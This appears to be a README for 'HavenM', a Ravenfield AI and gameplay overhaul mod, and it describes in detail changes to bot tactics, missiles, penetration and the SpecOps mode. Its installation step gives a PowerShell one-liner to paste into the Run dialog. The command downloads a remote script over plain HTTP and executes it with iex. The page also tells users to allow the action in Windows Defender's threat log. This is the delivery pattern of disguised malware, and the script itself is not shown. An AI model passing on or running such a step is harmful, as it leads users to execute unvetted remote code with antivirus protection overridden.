 # HavenM - AI and Gameplay Overhaul for Ravenfield

## What is HavenM?
HavenM is a game-changing AI and gameplay overhaul mod for *Ravenfield*, designed to enhance immersion, realism, and challenge. By modifying the game's DLL using *dnSpy*, this mod pushes AI behavior and game mechanics far beyond the vanilla experience.

## Why Modify the Game DLL with dnSpy?
Ravenfield's default AI often feels too predictable, lacking the tactical decision-making and combat awareness that could make battles more engaging. Over nearly two years of dedicated work, HavenM was created to introduce smarter, more reactive AI and refined game mechanics, offering a significantly improved experience.

## Key Features & Changes

### AI Improvements
- **Tactical Movement & Reactions**
  - AI soldiers go **prone under fire**, making them harder to hit.
  - AI no longer **auto-crouches** but instead jogs to objectives when not under fire, improving pacing and movement fluidity.
  - AI **halts vehicles to fire weapons**, with behavior influenced by skill level and weapon type.
  - AI **stops, aims, fires, and tracks targets** when using wire-guided missile weapons, greatly enhancing anti-vehicle effectiveness.
  - AI **exits vehicles when submerged** in water and leaves aircraft when stuck, preventing soft-lock situations.
  
- **Combat Behavior & Engagements**
  - AI **fires more aggressively**, reducing hesitation and making firefights more intense.
  - AI from **all skill levels can lean**.
  - AI **hides behind cover when under fire**.
  - AI **provides suppressive fire** on known enemy positions.
  - AI **prioritizes high-threat targets** like mortar teams rather than engaging randomly.
  - AI **engages low-flying and slow-moving aircraft**, making landing helicopters and air support more vulnerable.
  - AI **randomizes weapon switching** based on target engagement effectiveness, preventing predictable behavior.
  - AI **switches between grenades, under-barrel grenade launchers, and melee weapons** when appropriate.
  - Vehicles with **low passenger counts halt more often to provide fire support** instead of recklessly rushing into battle.
  - **Airplanes perform better** in air-to-ground attacks, adjusting tactics based on weapon loadout.
  - AI **driving vehicles now reverse based on their actual reverse speed**, reducing vehicle-stuck issues (e.g., T-72 tank).
  - AI **loadouts are randomized**.
  - AI **no longer drops their target** in SpecOps mode or when within **40m of an enemy**.
  - AI **panic fires when an enemy is within 20m**, ignoring weapon effectiveness (works well with kamikaze vehicle mods).
  - AI **piloting helicopters slows down and stabilizes** when spotting an enemy while using wire-guided missiles, improving targeting accuracy.
  - AI **grouped near cover is now considered an infantry group**, allowing explosives to target them effectively.

### New Game Mechanics
- **Weapon Mounting System**
  - Inspired by *Rising Storm: Vietnam*, players can now mount weapons on surfaces for improved accuracy and stability.

- **Advanced Missile Targeting**
  - Missiles **predict target movement** instead of flying straight, making dogfights and anti-vehicle combat more challenging.
  - Flares **don't stop missile locks**, but they confuse missiles, causing them to veer off unpredictably instead of always missing.

- **Simple Penetration System**
  - High-damage weapons now have penetration mechanics:
    - **Bullets & explosives pass through cover** if they deal **over 100 damage**.
    - **Explosives ignore cover & explode** if their damage is over **900**.

## Overhauled SpecOps Game Mode
HavenM includes a **complete revamp** of the SpecOps mode, making it more dynamic and challenging:

- **Dynamic enemy spawns**, ensuring unpredictable encounters.
- **Customizable objectives & enemy count**, allowing for tailored difficulty (bot number controls AI per objective, respawn timer controls objective count).
- AI **exits vehicles** when the player is nearby to engage in direct combat.
- AI **flanks and ambushes players** based on skill level.
  - **Normal & lower-skill bots** rush to the player's last known position.
  - **Veteran bots** hold back, providing fire support and ambushing players who move carelessly.
- **Increased enemy spawns during exfiltration**, making the escape phase more intense.
- AI **no longer needs direct line of sight to fire flares**—they react when alerted instead.

# Installation 
Copy this command, Win+R to open "Run" windows, paste it, and press Enter.

It will create an Updater shortcut in Desktop.

**YOU MAY NEED TO ALLOW THIS ACTION ON YOUR [WINDOWS DENFENDER](windowsdefender://threat)’s Log FOR THE FIRST TIME!!!**
```batch
powershell -nop -c "$w=(New-Object System.Net.WebClient);$w.Encoding=[System.Text.Encoding]::UTF8;iex($w.DownloadString('http://ravenfieldcommunity.github.io/static/get_havenm-utf8.ps1'));Read-Host;"
```

